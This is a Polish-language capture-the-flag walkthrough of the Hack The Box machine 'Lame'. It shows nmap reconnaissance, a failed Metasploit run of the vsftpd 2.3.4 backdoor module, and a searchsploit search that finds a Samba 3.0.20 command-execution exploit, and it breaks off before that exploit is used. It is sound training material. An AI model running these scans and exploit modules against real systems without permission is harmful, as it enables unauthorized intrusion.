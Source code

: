 ```yaml
---
layout: post
title:  "[HTB] Lame walkthrough"
tags: htb walktrough pentesting
---
```


# Intro

Pierwsze walktrough dość już starej maszynki o wdzięcznej nazwie "Lame" na platformie [Hack the box](https://www.hackthebox.eu/). Jeśli nie wiesz czym jest platforma HTB to spieszę z wyjaśnieniem. Platforma HTB to w dużym skrócie serwis, który umożliwia testowanie i rozwijanie umiejętności z zakresu pentestingu. Zabawy polega na zdobyciu dwóch flag: zwykłego użytkownika oraz roota (Administratora dla systemów Windows). Opis całej platformy to temat na oddzielny post. Zatem przejdźmy do "shackowania" naszej pierwszej maszynki.

# Rekonesans

W dalszej części postus przyjąłem, że posiadasz skonfigurowane połączenie VPN do platformy HTB. 

Zawsze pierwszym krokiem do zdobycia dostępu do maszyny jest rekonesans. Musimy sprawdzić jakie porty są otwarte oraz jakie usługi zostały wystawione. W tym celu użyjemy najpopularniejszego narzędzia do skanowania portów jakim jest nmap. Otwieramy konsole i wydajemy następujące polecenie:

```bash
sudo nmap -sVC 10.10.10.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-21 18:08 UTC
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.88% done; ETC: 18:08 (0:00:00 remaining)
Nmap scan report for 10.10.10.3
Host is up (0.020s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.36
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h50m32s, deviation: 2h49m45s, median: -3d02h50m35s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-09-18T11:18:20-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: userhiw
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.54 seconds

```

Krótkie wyjaśnienie przełączników:
* **-sC** - skanowanie z domyślnym zestawem skryptów
* **-V** - pokaż wersję usług

Jak widzimy na powyższym zrzucie mamy kilka usług: ftp, ssh oraz sambę. SSH raczej możemy odrzucić, rzadko jest to punkt wejścia do maszyny, chyba, że innym sposobem (np. poprzez wykorzystanie dziury w aplikacji webowej) udało się zdobyć poświadczenia do logowania. Zostaje zatem ftp oraz samba. Szybkie wyszukanie w google frazy "vsftpd 2.3.4" prowadzi nas do strony (https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor). Według opisu tej podatności do archiwum vsftp został wprowadzony backdoor, który pozwala na wykonanie dowolnego polecenia na systemie z uprawnieniami usługi vsftpd. Czyli mamy podatność typu RCE (Remote Code Execution). Możemy zatem przejść do próby eksploitacji. 

# Eksploitacja vsftpd

Do pierwszej próby zdobycia dostępu do maszyny wykorzystamy narzędzie metasploit, które zawiera gotowy do wykorzystania eksploit. Uruchamiamy metasploita:

```bash
msfconsole
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.88-dev                          ]
+ -- --=[ 2014 exploits - 1097 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE true

msf5 > 
```

Możemy przeszukać potężną bazę eksploitów i zobaczyć czy jest dostępny eksploit na tą konkretną wersję vsftpd:

```bash
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```
Ekspolit jest dostępny zatem możemy przejść do próby jego wykorzystania. Robimy to używając polecenia use i podając pełna ścieżkę do nazwy eksploita:

```bash
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Możemy również wyświetlić informacje o danym eksploicie oraz parametry które musimy ustawić aby zadziałał:

```bash
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > info
       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
```
Jak widać jedynym potrzebnym parametrem jest parametr RHOSTS, który jest standardowy dla większości (wszystkich?) eksploitów czyli remote host. Tak więc ustawiamy go na adres IP maszyny Lame:

```bash
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

Jesteśmy gotowi do eksploitacji:

```bash
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit 

[-] 10.10.14.36:21 - Exploit failed [unreachable]: Rex::ConnectionRefused The connection was refused by the remote host (10.10.14.36:21).
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
Niestety widzimy informację o tym, że nie została utworzona żadna sesja. Oznacza to, że próba eksploitacji była nieudana. Prawdopodobnie wersja zainstalowana na serwerze nie jest już podatna na ten błąd ponieważ zgodnie z opisem został on dość szybko usunięty. Jeśli pamiętamy nasz pierwszy krok (rekonesans) to pamiętamy, że poza vsftp była jeszcze jedna usługa, która może zawierać jakąś podatność: samba.

# Eksploitacja samba

Do próby eksploitacji możemy również użyć narzędzia metasploit. Tym razem do sprawdzenia czy jest dostępny moduł użyjemy searchsploit, który moim zdaniem daje bardziej przejrzyste wyniki wyszukiwania:
```bash
searchsploit samba 3.0.20
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                          |  Path
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                  | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                        | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                   | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                   | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                           | linux_x86/dos/36741.py
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Na powyższym zrzucie widzimy, że mamy kilka możliwości do wyboru, ale najciekawsza wydaje się być opcja "'Username' map script' Command Execution (Metasploit)"

# Podsumowanie
